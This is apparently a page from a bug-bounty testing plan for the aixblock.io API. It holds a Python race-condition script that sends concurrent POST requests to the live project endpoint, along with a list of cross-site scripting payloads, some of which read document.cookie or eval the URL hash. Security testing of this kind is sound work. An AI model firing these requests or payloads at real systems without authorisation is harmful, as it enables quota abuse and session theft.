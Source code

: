 #### **Priority 4: Race Conditions**
**Dark Web Status**: Heavily exploited for quota bypass
**Testing Strategy**:
```python
import requests
import threading

def race_condition_test():
    threads = []
    for i in range(10):
        t = threading.Thread(target=create_project_request)
        threads.append(t)
        t.start()
    
    for t in threads:
        t.join()

def create_project_request():
    response = requests.post("https://api.aixblock.io/api/v1/projects", 
                           json={"name": "test_project"})
    print(f"Response: {response.status_code}")
```

#### **Priority 5: XSS (Cross-Site Scripting)**
**Dark Web Status**: Persistent #1 vulnerability
**Testing Strategy**:
```html
<!-- Stored XSS -->
<script>alert(document.cookie)</script>

<!-- Reflected XSS -->
<img src=x onerror=alert(document.cookie)>

<!-- DOM-based XSS -->
<script>eval(location.hash.substring(1))</script>

<!-- SVG XSS -->
<svg onload=alert('XSS')>

<!-- Iframe XSS -->
<iframe src=javascript:alert('XSS')>
```

---

## **📊 EXPECTED OUTCOMES**

### **Withdrawal of High-Risk Submissions**
- **6 vulnerabilities** to be withdrawn
- **Reason**: No real exploitation possible
- **Benefit**: Focus resources on high-value findings
